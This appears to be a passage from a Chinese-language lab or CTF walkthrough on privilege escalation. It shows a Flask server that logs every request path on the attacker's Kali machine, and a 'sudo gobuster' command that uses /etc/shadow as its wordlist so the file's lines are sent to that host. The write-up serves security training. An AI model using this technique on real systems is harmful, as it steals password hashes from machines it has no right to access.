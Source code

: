 那么就可以任意读取文件了，首先在`kali`使用`python`写一个简易服务器，将所有请求都保存在`access.txt`里

```bash
// a.py
from flask import Flask, Response, request

app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
# catch_all 处理所有请求
def catch_all(path):
    # 获取请求的 URL 和路径
    url = request.url
    path_info = path
    
    # 将 URL 和路径保存到 access.txt
    with open('access.txt', 'a') as f:
        f.write(f"URL: {url}\n")
        f.write(f"Path: {path_info}\n")
        f.write("-" * 50 + "\n")

    # 根据路径的长度返回相应的状态码
    if len(path) == 31:
        return Response(status=404)
    else:
        return Response(status=200)

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=81)
```

`kali`开启服务器

```bash
python a.py
```

然后在靶机使用`gobuster`指定字典`/etc/shadow` ,执行

```bash
sudo gobuster dir -u http://192.168.56.4:81 -w /etc/shadow --exclude-length 0
```

那么这样就能读取到`/etc/shadow`的文件夹了
